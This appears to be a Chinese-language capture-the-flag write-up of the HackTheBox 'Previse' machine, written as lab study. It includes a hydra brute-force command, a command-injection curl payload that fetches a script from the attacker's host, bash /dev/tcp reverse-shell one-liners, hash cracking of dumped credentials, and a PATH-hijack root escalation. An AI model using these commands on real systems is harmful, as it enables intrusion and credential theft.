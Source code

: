 # Previse Writeup
###### tags: `htb`
> URL : https://app.hackthebox.eu/machines/373
IP : `10.129.212.165`

## Recon
- 掃 Port
    - `rustscan -a 10.129.212.165`
    - 發現有開 22 跟 80
    - ![](https://i.imgur.com/JJ3Fgbs.png)
- 掃目錄
    - `python3 dirsearch.py -u http://10.129.212.165/`
    - ![](https://i.imgur.com/kCLVQCp.png)
    - 基本上沒有什麼有趣的東西
        - 不過有發現有滿多的目錄都會被導到 `login.php`
        - 先事後諸葛的講一下，注意他們的302檔案大小不同
        - 隨便點開幾個沒有關 index of 的目錄
            - ![](https://i.imgur.com/9ypc7Qy.png)
            - ![](https://i.imgur.com/Pk1uGAX.png)
            - 看不出什麼
## 準備 Exploit
- 其實 Recon 玩之後，我就走投無路的卡了兩個小時，途中包含嘗試了 hydra 爆破
    - `hydra -L user.txt -P /opt/rockyou.txt 10.129.212.165 http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed:login.php"`

- 後來發現了他們的 302 大小不同
    - 這叫做 `Execute After Redirect (EAR)` 感謝唉嗚提供!
    - 可以用 Burp 把 Response 也抓包抓起來
        - ![](https://i.imgur.com/XwipB0h.png)
        - 並徒手把 301 的 Redirect 改回 200
- 就可以直接在不登入的狀況下訪問各種目錄了
    - 這算 OWASP TOP 10 的 A2-Broken Authentication
    - ![](https://i.imgur.com/pdEC3vt.png)
    - ![](https://i.imgur.com/ThTYQAd.png)
    - 我們先創一個自己的帳號然後進去亂晃
- 其中在檔案下載的地方，有網頁的原始碼
    - 可以在 `logs.php發現一個明顯的 Command injection 漏洞，但它貌似不會回顯
        - ![](https://i.imgur.com/QdUn7fX.png)
- 使用 Command injection
    - `curl 'http://10.129.212.165/logs.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://10.129.212.165' -H 'Connection: keep-alive' -H 'Referer: http://10.129.212.165/file_logs.php' -H 'Cookie: PHPSESSID=g5ssm562il8nfcv9fj771ma1nd' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'delim=comma;curl -o /tmp/s 10.10.14.47:8000/s_HTB '`
    - 成功載下了我們的 rever sehell
        - `bash -c 'bash -i >& /dev/tcp/10.10.14.47/7877 0>&1'`
        - ![](https://i.imgur.com/34paVQN.png)
    - 也成功執行起來ㄌ`
curl 'http://10.129.212.165/logs.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://10.129.212.165' -H 'Connection: keep-alive' -H 'Referer: http://10.129.212.165/file_logs.php' -H 'Cookie: PHPSESSID=g5ssm562il8nfcv9fj771ma1nd' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'delim=comma;bash /tmp/s'` 
    - ![](https://i.imgur.com/YCte2rL.png)

## 一次提權
- 發現我們不能 cat user flag
    - ![](https://i.imgur.com/JYyiOQx.png)
- 觀察 `sudo -l`
    - 我們不能用 sudo 做任何事情
    - ![](https://i.imgur.com/yiiNAXZ.png)
- 從 `config.php` 可以找到資料庫名稱跟密碼
    - ![](https://i.imgur.com/8Y0jBv2.png)
    ```php
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
    ```
- 嘗試把 sql 給 dump 出來
    - `mysqldump -u root -h localhost -p previse > a.sql`
    - ![](https://i.imgur.com/8yfW75r.png)
    - 再載下來
        - `wget 10.129.212.165/a.sql`
        - ![](https://i.imgur.com/Pibp3sV.png)
- 可以觀察到一段帳號跟使用者密馬 hash
    - ![](https://i.imgur.com/WsWuXNF.png)
    - `m4lwhere','$1$ðŸ§‚llol$DQpmdvnb7EeuO6UaqRItf.'`
    - 使用 [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)分析
        - ![](https://i.imgur.com/1kx3I9W.png)
        - 發現是 `MD5-Crypt`
    - 而我自己的使用者密碼也在資料庫中，發現到他們的 Salt 一樣
        - ![](https://i.imgur.com/72QlQPu.png)
        - 直接破會發現解不開 QQ
        - ![](https://i.imgur.com/nTmH5uZ.png)
- 觀察原始碼發現它的 salt 是固定的，而且用了 Unicode 的 Emoji
    - ![](https://i.imgur.com/4GmD2ui.png)
    - `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`
- 重新修正後就可以用 john 來解ㄌ!
    - ![](https://i.imgur.com/JO0E1mo.png)
- 另外這邊也可以用 Hash Cat 來解
    - `hashcat -m 500 hash.txt rockyou.txt`
    - 可以觀察 Hash cat 的網站，尋找 MD5-Crypt 的代號是 500
        - https://hashcat.net/wiki/doku.php?id=example_hashes
    - ![](https://i.imgur.com/I0M0qIK.png)
- 因此我們就取的了一組帳密
    - `m4lwhere`
    - `ilovecody112235!`
- 也可以順利的 SSH 上去了
    - ![](https://i.imgur.com/UlnFQjt.png)
- 取得 User Flag
    - ![](https://i.imgur.com/ZkPZqFf.png)
    - `aad354dc018b14716dee8310d8f90c03`

## 準備二次提權
- 起手式 `sudo -l`
    - ![](https://i.imgur.com/Ipn20vZ.png)
    - 發現我們可以用 sudo 執行 `access_backup.sh`
    - 但是我們不行對這個檔案進行寫入
        - ![](https://i.imgur.com/2mMRdRt.png)
- 發現程式會呼叫 `date` 的相對位置
    - 所以我們可以用 Path 誤導程式，執行我們的腳本
    - 在本地家目錄創一個 `date` 檔案，設定 x 權限並寫入 Reverse shell
        - `bash -c 'bash -i >& /dev/tcp/10.10.14.47/7878 0>&1'!`
    - 執行 `PATH=/home/m4lwhere:$PATH sudo /opt/scripts/access_backup.sh`
    - 順利取得 Root!!
        - [](https://i.imgur.com/x7l8YDF.png)


![](https://i.imgur.com/I9ANt6M.png)



## 心得
- Execute After Redirect (EAR)
    - 用 dirsearch 除了 Status Code 也需要注意檔案大小
    - 302 跳轉可以先用 curl 檢查
    - Burp 也可以攔截 response 把東西拔掉
- Hash 遇到 Unicode 在 sqldump 或是 cat、less 等狀況 可能會出問題
